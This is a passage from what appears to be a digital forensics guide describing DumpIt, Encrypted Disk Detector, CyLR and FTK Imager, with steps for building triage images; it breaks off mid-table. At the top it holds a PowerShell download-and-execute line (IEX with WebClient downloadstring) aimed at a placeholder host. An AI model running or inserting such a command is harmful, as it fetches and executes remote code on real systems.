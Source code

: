 ```IEX(New-Object System.Net.WebClient).downloadstring(‘http://example.com/foo.exe’)```

DumpIt is an executable that can be used from a USB and once run it will pull live memory from a system. It can be downloaded from here: https://my.comae.com/login. You will need to sign up to download. 

<a name="edd"></a>
### Encrypted Disk Detector

This tool is made by Magnet Forensics and is free to download once you have signed up. It can be used to detect a variety of disk encryption on a live system. If you run this tool and discover disk encrytion then you will need to do live disk acquisition if you don't have the password to unlock the machine once it it turned off. 

You can download the tool from here: https://www.magnetforensics.com/resources/encrypted-disk-detector/.

<a name="cylr"></a>
### CyLR

The below description is taken from the github page: https://github.com/orlikoski/CyLR.

The CyLR tool collects forensic artifacts from hosts with NTFS file systems quickly, securely and minimizes impact to the host.

The main features are:

- Quick collection (it's really fast)
- Raw file collection process does not use Windows API
- Optimized to store the collected artifacts in memory (minimizing or removing entirely the need to write additional artifacts on the host disk)
- Built in SFTP capability

CyLR uses .NET Core and runs natively on Windows, Linux, and MacOS. Self contained applications for the following are included in releases for version 2.0 and higher.

- Windows x86
- Windows x64
- Linux x64
- MacOS x64

I have used this in dead forensics before and not as live acquisition. My method to create a triage image was:

1. Mount the image you have in FTK Imager as a 'Block Device/Read Only'.
2. Note the drive letter of the newly mount drive.
3. Note all of the User Names of the users on the image. 
4. Update the `CyLR_Config.txt` file and save it in the same directory as CyLR.exe.
5. In an Admin command prompt run: `CyLR.exe -c CyLR_Config.txt`.

<a name="ftkimager"></a>
### FTK Imager

This is one of my favourite tools to use in forensics due to its ease of use, versatility, and reliability. 

To create a triage image add the full disk image that you have acquired follow below:

1. Go to File > Add Evidence Item...
2. Add the full disk image that you have just acquired.
3. Then go through and manually add the following list of items by right clicking and then selecting 'Add to custom content image (AD1)'.

| |
```